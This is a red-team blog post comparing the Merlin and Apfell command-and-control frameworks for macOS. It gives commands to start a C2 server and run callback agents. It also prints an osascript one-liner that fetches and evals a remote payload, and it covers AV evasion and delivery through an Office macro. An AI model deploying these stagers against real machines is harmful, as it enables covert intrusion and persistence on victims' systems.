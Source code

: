 ```yaml
---
title: "OSX Pentesting Part-1"
categories:
  - Blog
tags:
  - Pentesting
  - OSX
  - C2
  - Red Teaming
---
```




A brief foray into OSX C2 Frameworks

*original posted [here](https://chessict.co.uk/blog/av-for-mac-do-you-really-need-it/)*

As a Pentester, I often find myself attempting to identify, * read: shamelessly steal/adapt people's research*, new and intuitive ways to gain access and persistence on Windows endpoints without triggering the AV. My current go-to being a combination of shellcode injection and cobbr's Covenant C2. However, one of the main drawbacks of these frameworks is their limited, or complete lack of, applicable stagers for OSX.

Now I'm sure we've all heard the spiel "Mac's don't get viruses", "Mac AV is a waste of money" etc. but we know that's simply not true. This knowledge, however, doesn't help when you find yourself on an engagement desperately trying to reconfigure payloads because you've landed in the Design department and, of course, all the endpoints on your subnet are OSX.

*Before I go much further, confession time: I have, and love, my MacBook Pro. Since switching to it a few years ago as my daily driver, I couldn't be without it, to the extent that I bought my own to use at work rather than use the Windows laptop provided.*

So here we are, my go-to C2 is .Net based and while the control centre will run on OSX, with some cajoling, there is no OSX stager capability out of the box; enter 'Merlin' and 'Apfell'.


### Merlin

While I've experimented with Ne0nd0g's Merlin C2 on and off for a while, I actually very rarely find myself using it on engagements and I have no idea why. Written in Go, a language I'm actively trying to understand and utilise more, it can easily have agents compiled for Linux,OSX and Windows. One of Merlin's key features is its ability to evade network detection by utilising the HTTP/2 protocol (which most tools are ill-equipped to understand or inspect).

Out of the box, setup is relatively simple. It's just a case of downloading the applicable server and agent binary from the [GitHub repo](https://github.com/Ne0nd0g/merlin/releases). Once you've got the relevant binaries, you can spin up the merlin server from the terminal using the below command.

```python 
merlinServer-Linux-x64 -p 80 -i 0.0.0.0 
```
With 80 signfying the port you wish to listen on and 0.0.0.0 being the interface (in this case all)

![MServerStartup]({{site.url}}/assets/posts/OSXPenP1/MServerStartup.png)

Agent execution is achieved simply by executing the binary on your target host with the relevant details of your C2 server. I leave it to the reader to identify how they might get this binary onto the target host.

```python
merlinAgent-Darwin-x64 -url https://192.168.1.104:80
```

And thats it! We should now have a callback from our OSX target to our C2 server

![MCallBack]({{site.url}}/assets/posts/OSXPenP1/MAgentCallBack.png)

While this is very simple to set up, this simplicity comes with its drawbacks. From an attack vector perspective, the need to drop a binary onto disk and the requirement for a URL flag makes it more complex to trick a user into execution via social engineering. Additionally, the pre-compilation of the agent means it is much more likely to be detected by signature detection, as shown by VirusTotal.

![MVT1]({{site.url}}/assets/posts/OSXPenP1/MVT1.png)

Straight away, we can start to address some of these issues. Instead of utilising the released binary, we can create our own from source. We can also improve our social engineering chances by providing a method for 'one-click' execution by hard coding the connection URL.

```python
make agent-darwin URL=https://192.168.1.104:80
```

Both of these instantly drop the detection rate.
![MVT2]({{site.url}}/assets/posts/OSXPenP1/MVT2.png)

Unfortunately, these changes were not enough to trick the NextGen Sophos AV running on my Mac. At this stage, I would typically look at writing a separate dropper application as well as converting the stager into shellcode to avoid detection. This is both outside of the scope of this small blog and outside of my current OSX coding skills.

### Apfel

ApFell is a recent addition to my C2 arsenal, mainly due to it being directly targeted against *nix-based systems and not Windows. Fundamentally using a Web GUI frontend with docker instances running in the background, setup is achieved relatively easily via an [installation script](https://github.com/its-a-feature/Apfell).

On connecting to the WebGui you can easily review what operations are in progress and choose which one you want to connect to.

![APFellS1]({{site.url}}/assets/posts/OSXPenP1/APFellS1.png)

Payload generation is similarly streamlined by simply accessing the 'Create Components/Create Payload' menu.

![APFellPayload]({{site.url}}/assets/posts/OSXPenP1/APFellPayload.png)

From this menu, you can customise your attacking payload with the standard information such as encryption key, call-back host/port etc. The most notable element of payload creation is the ability to choose what functionality to include in your payload – a stroke of genius in situations where you're trying to stay undetected.

![APFellPayload2]({{site.url}}/assets/posts/OSXPenP1/APFellPayload2.png)

By restricting the functionality of any initial stager to just that which is required (typically something with command execution). Once a foothold has been achieved you can always include additional functionality in later payloads.

On clicking 'Submit' you can review/host/download your payload from the 'Manage Operations/Manage Payloads' page.

![APFellPayload3]({{site.url}}/assets/posts/OSXPenP1/APFellPayload3.png)

Now, because I'm one - lazy and two - don't like dropping directly malicious files to disk when I can help it, Apfell's ability to host files is definitely another bonus.

![APFellPhosting]({{site.url}}/assets/posts/OSXPenP1/APFellhosting.png)

Though based upon VirusTotal's detection metrics, dropping the resulting file onto the disk is currently unlikely to raise many flags.

![APFellVT1]({{site.url}}/assets/posts/OSXPenP1/APFellVT1.png)

By clicking on 'Config' you can review the settings of your payload, as well as obtain the relevant execution command.

```javascript
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://domain.com/payload.file')),$.NSUTF8StringEncoding)));"
```

Whilst not exactly the easiest command to trick users into executing, well in the capabilities of a rubber ducky/digispark attack scenario.

![APFellCallback1]({{site.url}}/assets/posts/OSXPenP1/APFellCallback1.png)

It’s not pretty, but it gets the job done, with AV none the wiser.

As stated before, this isn't exactly social engineering friendly – however thanks to Microsoft's inclusion of the VBA command 'Shell' and its cross-platform capabilities, getting this to execute from a macro is straight forward.

![APFellMacro]({{site.url}}/assets/posts/OSXPenP1/APFellMacro.png)

I started to play around with throwing some obfuscation into this (hence the commented out lines), but in the end this wasn't needed and AV lets it sail through with no issues, although the detection rate was increased.

![APFellVT2]({{site.url}}/assets/posts/OSXPenP1/APFellVT2.png)

This is most likely down to using an 'xlsm' to wrap my payload and the AV's in question being a bit twitchy (none of the Enterprise-based AV batted an eye), rather than them identifying the malicious content for what it is.

### Conclusion

Both C2 frameworks have good points and bad points, however on the whole I’d have to say Apfell takes the lead as the better framework when it comes to OSX C2 exploitation. This is primarily due to it providing lower AV detections, dropping fewer files to disk and the ability to customise payloads to fit particular use-cases, rather than being forced to include all capabilities and raising the detection risk. 

In part-2 (whenever I get around to write it), I’ll be looking more at how you can utilise both inbuilt OSX functionality as well as your own tooling to exploit Active Directory from the position of a compromised OSX device.
